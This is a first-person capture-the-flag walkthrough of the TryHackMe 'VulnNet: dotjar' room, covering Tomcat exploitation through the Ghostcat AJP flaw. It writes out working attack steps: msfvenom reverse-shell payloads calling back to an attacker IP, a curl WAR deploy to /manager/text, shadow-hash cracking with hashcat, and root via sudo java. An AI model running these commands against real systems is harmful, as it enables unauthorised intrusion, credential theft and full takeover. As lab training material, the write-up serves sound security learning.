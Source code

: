 # VulnNet: dotjar

https://tryhackme.com/room/vulnnetdotjar

Oof, this room took a lot longer than it should have, I think. I really struggled with the initial foothold (not helped by the room saying it should have been easy, haha).

Recon showed two ports, `8009` and `8080`. On `8080` was a tomcat instance, so I immediately though of the war deploy hack, but the manager interface was protected by basic auth. I ran through a bunch of default creds for this, tried hitting it with hydra and even metasploit's enum function (I usually avoid metasploit just because its too magic), but no dice.

`8009` is the 'ajp' port, sort of a different protocol way to access the admin interface. A few resources I'd read only mentioned it insofar as you can use it to access tomcat if `8080` is blocked, which wasn't much use. Hmm. I figured it being exposed though, as one of only *two* ports, must be important.

An hour or so of banging my head, and I did a bit more research before stumbling onto [Ghostcat](https://www.securityweek.com/apache-tomcat-affected-serious-ghostcat-vulnerability) - a vulnerability in ajp that provides somewhat restricted but still potentially devastating local file inclusion. To test this, I hit up exploit db and found this python 2 script: https://www.exploit-db.com/exploits/48143

Grabbing this and running it as is (`python2 ghostcat.py 10.10.104.169`) pulled out the `WEB-INF/web.xml` file, which contained the following text:

```xml
<description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    <redacted>:<redacted>

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
```

Great! I had creds... but these didn't work for the manager interface. They did work for the host-manager though, and thus went the next hour as I went down a dead end. Specifically, I tried following this guide: https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/, but couldn't get it to work. Turns out, it only works if a number of configurations have been made to, for example, allow tomcat to host from remote servers which didn't appear to be the case.

So I was stuck again... until I read the above more slowly. The GUI is disabled... but in my wanderings and enumeration of tomcats docs I found it had a ... text interface? basically a simplistic api. That is, `/manager/html` is the standard manager url, but */manager/text* performs basically the same purpose *without a gui*! Sure enough, by accessing `/manager/text/list` I got a list of deployed applications.

Ok, so back to using the standard war exploit, finally :)

- First I created a jsp-based reverse shell with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.108.144 LPORT=4444 -f raw -o revshell.jar`
- Then I uploaded this using curl: `curl -u <redacted> --upload-file revshell.war http://10.10.104.169:8080/manager/text/deploy?path=/revshell`
- Finally, by starting a nc listener and navigating to `http://10.10.104.169:8080/revshell`

This got me onto the machine as 'web'.

From here it was somewhat easy. I ran linpeas, and found a backup file under backups I could read, `shadow-backup-alt.gz`. Unzipping this got me a copy of shadow with the hashes for `web` and the other user, `jdk-admin`. I put these through hashcat with rockyou and `-m 1800` and quickly got the jdk-admin password. In their home directory was the user flag.

To get to root, sudo -l revealed I could run java as root, specifically `/usr/bin/java -jar *.jar`. Easy. I created another revshell, with a subtly different payload: `msfvenom -p java/shell_reverse_tcp LHOST=10.10.108.144 LPORT=4445 -f raw -o revshell2.jar`, brought this onto the machine via a web server and wget, started a new listener and then ran the sudo command to get a root shell. Easy :) Note that msfvenom, with a java payload will emit a jar format by default.
